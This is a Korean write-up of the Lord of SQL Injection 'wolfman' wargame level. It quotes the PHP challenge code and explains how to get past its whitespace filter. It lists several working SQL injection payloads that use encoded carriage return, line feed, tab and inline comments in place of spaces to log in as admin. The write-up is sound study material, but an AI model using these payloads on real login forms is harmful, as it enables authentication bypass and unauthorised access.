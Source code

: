 # Lord of SQL Injection No.5 - wolfman
## 문제 출제 의도
' '(공백)없이 쿼리를 조작하여 해결 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스 코드  
wolfman의 소스 코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
    $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("wolfman"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - GET방식으로 받은 pw에 공백이 있으면 "No whitespace ~_~"이 출력되고 문제풀이에 실패한다.
    - 문제 풀이에 성공하는 조건은 데이터베이스에서 받아온 id 값이 'admin'이면 통과이다.
## 문제 해결
+ 추가 문자열  
    'admin'을 id 값으로 받아오기 위해서는 다음과 같은 문자열이 URL뒤에 추가되어야 한다.
    ~~~
    ?pw=' or id='admin'-- -'
    ~~~
    그러나 공백을 입력하면 문제풀이에 실패함으로 공백을 대체할 문자들을 넣으면 문제풀이에 성공한다.  

+ CR(Carriage Return) 이용  
    ~~~
    ?pw='%0Dor%0Did='admin'--%0D-
    ~~~
    ASCII Code에서 Carriage Return은 0x0D에 해당한다.
    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

+ LF(Line Feed) 이용  
    ~~~
    ?pw='%0Aor%0Aid='admin'--%0A-
    ~~~
    ASCII Code에서 Line Feed은 0x0A에 해당한다.
    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

+ Tab 이용  
    ~~~
    ?pw='%09or%09id='admin'--%09-
    ~~~
    ASCII Code에서 Tab은 0x09에 해당한다.
    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

+ 주석 이용  
    ~~~
    pw='/**/or/**/id='admin'%23
    ~~~
    주석을 구문 사이에 입력하면 공백이 없어도 원활히 작동한다.
    이떄 #을 주석 대신 넣은 이유는 -- - 사이의 공백에 주석을 입력하면 정상적으로 작동하지 않기 때문이다.

**위와 같은 방법들 중 하나로 해결하면 $result['id']에 'admin'이 들어가므로 문제 해결에 성공한다.**
